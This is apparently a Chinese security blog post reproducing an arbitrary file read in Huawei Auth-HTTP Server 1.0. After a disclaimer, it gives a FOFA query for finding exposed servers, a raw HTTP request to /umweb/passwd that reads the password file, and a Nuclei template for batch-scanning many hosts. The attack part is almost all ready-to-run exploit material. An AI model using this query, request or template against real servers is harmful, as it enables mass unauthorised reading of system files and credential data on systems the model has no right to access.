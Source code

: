 # 原创
：  漏洞复现--Huawei-Auth-HTTP-任意文件读取

# 漏洞复现--Huawei-Auth-HTTP-任意文件读取

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

Huawei Auth-HTTP Server 1.0 是华为公司提供的一种身份验证及授权解决方案。它是一个基于HTTP协议的身份认证服务器，旨在为企业网络和系统提供安全的访问控制服务。该产品存在任意文件读取漏洞。

### 二：漏洞影响版本

未知

### 三：网络空间测绘查询

fofa:<br/> `server="Huawei Auth-Http Server 1.0" || icon_hash="-1812255781"`

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/ef8d9712cc88374f79cf76de8d222e56.jpeg"/><br/> POC:

```
GET /umweb/passwd HTTP/1.1
Host: x.x.x.x
Cache-Control: max-age=0
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

### 五：批量检测

```
id: Huawei-Auth-HTTP-file-reads

info:
  name: Huawei-Auth-HTTP-file-reads
  author: 芝士土拨鼠
  severity: high
  description: description

requests:
  - raw:
      - |+
        GET /umweb/passwd HTTP/1.1
        Host: {{Hostname}}
        Cache-Control: max-age=0
        Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
        Sec-Ch-Ua-Mobile: ?0
        Sec-Ch-Ua-Platform: "Windows"
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Sec-Fetch-Site: none
        Sec-Fetch-Mode: navigate
        Sec-Fetch-User: ?1
        Sec-Fetch-Dest: document
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9
        Connection: close


    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - root
      - type: status
        status:
          - 200

```
